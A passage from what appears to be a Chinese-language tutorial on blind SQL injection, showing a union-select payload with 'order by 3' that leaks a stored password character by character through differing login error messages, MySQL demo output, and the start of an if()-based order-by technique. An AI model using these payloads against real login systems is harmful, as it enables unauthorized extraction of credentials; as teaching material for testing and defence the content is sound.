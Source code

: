 ```sql
username=admin' union 1,2,'字符串' order by 3	//'
```

此时sql语句变为:

```sql
select * from admin where username='admin' or 1 union select 1,2,binary '字符串' order by 3;
```
&emsp;&emsp;这里就会对第三列进行比较，即将字符串和密码进行比较。然后就可以根据页面返回的不同情况进行盲注。 注意的是最好加上binary，因order by比较的时候不区分大小写。
例如:

```sql
mysql> select * from order1;
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 1 | admin | uP10AcB |
+------+----------+----------+
mysql> select * from order1 where username='' or 1 union select 1,2,'v' order by 3;
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 1 | admin | uP10AcB |
| 1 | 2 | v |
+------+----------+----------+


mysql> select * from order1 where username='' or 1 union select 1,2,'a' order by 3;
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 1 | 2 | a |
| 1 | admin | uP10AcB |
+------+----------+----------+

mysql> select * from order1 where username='' or 1 union select 1,2,'u' order by 3;
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 1 | 2 | u |
| 1 | admin | uP10AcB |
+------+----------+----------+
```
&emsp;&emsp;这里的order by 3是根据第三列进行排序，如果我们union查询的字符串比password小的话，我们构造的 1,2,a就会成为第一列，那么在源码对用户名做对比的时候，就会返回username error!，如果union查询的字符串比password大，那么正确的数据就会是第一列，那么页面就会返回password error!.
    
##### 基于if()盲注
**需要知道列名的情况:**
&emsp;&emsp;order by的列不同，返回的页面当然也是不同的，所以就可以根据排序的列不同来盲注。

```sql
order by if(1=1,id,username);
```
